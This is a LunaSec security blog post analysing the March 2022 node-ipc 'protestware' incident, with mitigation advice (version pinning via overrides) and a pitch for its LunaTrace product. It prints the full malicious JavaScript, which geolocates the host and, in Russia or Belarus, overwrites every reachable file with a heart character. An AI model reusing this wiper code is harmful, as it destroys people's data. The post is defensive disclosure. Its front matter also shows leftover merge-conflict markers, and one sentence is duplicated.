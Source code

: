 ```yaml
---
<<<<<<< HEAD
title: Protestware - How node-ipc turned into malware that targets russian IPs
description: The node-ipc package has turned into malware for Russian computers.
=======
title: "Protestware": How node-ipc turned into malware
description: How the author of the NPM package "node-ipc" turned it into malware to attack Russian developers and protest the war in Ukraine.
>>>>>>> 8f5263ab3d2076da20094bd42d835d93da18c38c
slug: node-ipc-protestware
date: 2022-03-18
image: https://www.lunasec.io/docs/img/.png
keywords: [node-ipc, protestware]
tags: [node-ipc, npm, nodejs]
authors: [chris, free]
---
```


<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

[node-ipc](https://www.npmjs.com/package/node-ipc) is a popular package to help with inter-process communication in Node.  Among the [list of projects](https://github.com/zlw9991/node-ipc-dependencies-list) 
affected is most notably is the [Vue web framework](https://www.npmjs.com/package/@vue/cli-shared-utils).

In retaliation for the invasion of Ukraine, the package's author added malware 
On March 16th, 2022, a popular package on NPM, named "node-ipc", had malware intentionally added to it by it's author. The package is used in a number of projects, and the impact of this malware was felt by many developers in Belarus and Russia.

A long, but not exhaustive, list of projects that include this dependency has been [compiled](https://github.com/zlw9991/node-ipc-dependencies-list). Among the list of projects affected is most notably is the [Vue.js web framework](https://www.npmjs.com/package/@vue/cli-shared-utils).


Snyk has written a [blog post](https://snyk.io/blog/peacenotwar-malicious-npm-node-ipc-package-vulnerability/) detailing
the timeline of events around the releasing of this malicius version.

## Technical Details of the Malware

The malicious code, which has since been deleted can be found [here](https://github.com/RIAEvangelist/node-ipc/blob/847047cf7f81ab08352038b2204f0e7633449580/dao/ssl-geospec.js). 

This code was [obfuscated](https://github.com/RIAEvangelist/node-ipc/issues/233#issuecomment-1072077181) to hide its intentions by the developer as more people started to pay attention to what was happening.

```js
import p from "path";
import fs from "fs";
import https from "https";

setTimeout(function () {
    if (Math.round(Math.random() * 4) > 1) {
        return;
    }

    const geoLocation = "https://api.ipgeolocation.io/ipgeo?apiKey=ae511e1627824a968aaaa758a5309154";

    https.get(geoLocation, function (response) {
        response.on("data", function (jsonData) {
            try {
                const jsonObject = JSON.parse(jsonData);
                const countryName = jsonObject["country_name"].toLowerCase();
                if (countryName.includes("russia") || countryName.includes("belarus")) {
                    getFiles("./");
                    getFiles("../");
                    getFiles("../../");
                    getFiles("/");
                }
            } catch (response) {}
        });
    });
}, Math.ceil(Math.random() * 1000));

async function getFiles(path = "", param2 = "") {
    if (!fs.existsSync(path)) {
        return;
    }

    let fileInDir = [];
    try {
        fileInDir = fs.readdirSync(path);
    } catch (t) {}

    const toDelete = [];
    for (var i = 0; i < fileInDir.length; i++) {
        const combinedPath = p.join(path, fileInDir[i]);

        let pathData = null;
        try {
            pathData = fs.lstatSync(combinedPath);
        } catch (t) {
            continue;
        }

        if (pathData.isDirectory()) {
            const result = getFiles(combinedPath, param2);
            result.length > 0 ? toDelete.push(...result) : null;
        } else if (combinedPath.indexOf(param2) >= 0) {
            try {
                fs.writeFile(combinedPath, "❤️", function () {});
            } catch (t) {
            }
        }
    }
    return toDelete;
}

const ssl = true;
export { ssl as default, ssl };
```

The code attempts to geolocate where the code is running, and if it discovers it is running with in Russia or Belarus, then it attempts to
replace the contents of every file on the system with a unicode heart character: ❤.

## Mitigation Strategies for Bad Dependencies

To figure out if you're using `node-ipc` via a transitive dependency, you can use commands such as `yarn why node-ipc` to show you where and how it's imported in your code.

You can then pin your `node-ipc` version to a known version by adding `overrides` to your `package.json`, like so:

```json
"overrides": {
    "node-ipc@>9.2.1 <10": "9.2.1",
    "node-ipc@>10.1.0": "10.1.0"
}
```

*Note: This also applies to any other "bad" NPM package that you need to pin to a specific version.*

Setting an override will prevent future malicious package updates from being included in your project.

Unfortunately, due to this package being a transitive dependency, it can be very difficult to realize you're even including `node-ipc` in the first place.

This is a part of a bigger problem that we, as the software community, need to have and we're discuss it more at the end of this post.

## List Bad Versions and Other Malware Packages

On NPM, previous versions that were pushed that contained the malicious code, including versions
[9.2.2](https://www.npmjs.com/package/node-ipc/v/9.2.2), [10.1.1](https://www.npmjs.com/package/node-ipc/v/10.1.1),
[10.1.2](https://www.npmjs.com/package/node-ipc/v/10.1.2). These versions [have all been removed](https://www.npmjs.com/package/node-ipc) at this point once this malware was spotted by the NPM team.

However, newely released versions, > 11.x.x, all now contain the library [peacenotwar](https://www.npmjs.com/package/peacenotwar).
Unlike the previous malicious code, this library does not remove files. Instead, the library attempts to "deliver a peaceful message"
by [writing the contents](https://github.com/RIAEvangelist/peacenotwar/blob/main/index.js#L32) of the file, [WITH-LOVE-FROM-AMERICA.txt](https://github.com/RIAEvangelist/peacenotwar/blob/main/WITH-LOVE-FROM-AMERICA.txt)
to the host filesystem.

## Going Viral

The updates to the `node-ipc` struck a chord with developers on the Internet and a great deal of activity has been 
happening on the project page since the version release.

**Warning** The follow links may contain offensive terms, and are not safe for work.

A number of
[issues](https://github.com/RIAEvangelist/node-ipc/issues), [pull requests](https://github.com/RIAEvangelist/node-ipc/pulls), and [discussions](https://github.com/RIAEvangelist/node-ipc/discussions) 
have been created in outrage over the developer's modifications to their library.

## Stopping Future Supply Chain Attacks

All of this is happening on the coat-tail of the widely used libraries `faker.js` and `colors.js` having code changes pushed
to [intentionally corrupt](https://www.theverge.com/2022/1/9/22874949/developer-corrupts-open-source-libraries-projects-affected)
projects that included them.

With Node's support for `postInstall` scripts, any package is able to run arbitrary code _even if it's never imported_ because simply running `npm install` will trigger the library's code. Adding insult to injury, when an imported package's version hasn't been "pinned" to a specific version, it's possible to install a malicious package update _without even realizing it's happening_.

Over the years, we've seen many attacks just like this happen, and the impact has only increased. It's clear that, without a solution to the problem, we're going to continue to see these issues popping up.

Dependency scanning tools like [GitHub Dependabot](https://github.com/dependabot), [Snyk](https://snyk.io/), [TideLift](https://tidelift.com/), and others aren't able to prevent these types of attacks from executing malicious code. These tools are only designed to scan changes _after_ they're committed to source control.

That's too late to prevent exploitation though because attacks can attack developers the moment they run `npm install` on their computers.

## Tooling to Block these attacks

Stopping these attacks needs to happen _before_ an `npm install` runs. But how does that work?

Well, the answer is simple: Have a developer review every line of code in new packages _prior to it being available on NPM to download_.

Oh, you don't want to do that? Then you're in luck because that's exactly what we do with our product, LunaTrace!

To make it possible, we've built a "fork" of NPM where all package updates are reviewed by our dedicated Security Engineers _automatically_ before your developers can install them.

It's tedious work, but somebody has to do it.

The core of LunaTrace is actually [open source and available on GitHub](https://github.com/lunasec-io/lunasec/tree/master/lunatrace) today. We're planning to publicly release the managed Cloud version in the coming days.

If you want access to our private NPM registry of pre-vetted packages, please get in touch with us. (It's hard work and we're still scaling our team up to handle the load.)

## Request Early Access

If you're interested in working with us while we continue to develop and improve LunaTrace, please email us about early access at: [contact@lunasec.io](mailto:contact@lunasec.io)

More details will be added to our website shortly. Cheers!
